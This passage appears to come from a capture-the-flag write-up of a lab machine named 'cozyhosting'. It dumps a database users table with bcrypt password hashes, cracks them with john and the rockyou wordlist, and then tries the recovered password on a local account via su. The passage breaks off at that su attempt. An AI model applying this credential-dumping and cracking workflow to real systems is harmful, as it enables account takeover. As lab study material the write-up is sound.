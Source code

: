 \d

List of relations

Schema | Name | Type | Owner

--------+--------------+----------+----------

public | hosts | table | postgres

public | hosts_id_seq | sequence | postgres

public | users | table | postgres

(3 rows)

select * from users;

name | password | role

-----------+--------------------------------------------------------------+-------

kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User

admin | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin

(2 rows)

To unhash, I save the passwords to hash.txt and run them on john (a new tool to me so wanted to try it). Using ChatGPT, I determined what type of encryption the hash is. It is encrypted with bcrypt.

Using john to crack the hashes, it found one password I can try "manchesterunited".

-[Thu Feb 29-10:50:39]-[table@parrot]-

-[~]$ john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

Using default input encoding: UTF-8

Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X3])

Cost 1 (iteration count) is 1024 for all loaded hashes

Will run 8 OpenMP threads

Press 'q' or Ctrl-C to abort, almost any other key for status

manchesterunited (?)

I tried to log in to the web portal as "admin" with that password. No luck. I noticed a user directory in the /home folder named josh. I try to login as josh with su josh:

app@cozyhosting:/$ cd /home

cd /home

app@cozyhosting:/home$ ls

ls

josh

app@cozyhosting:/home$ su josh

su josh
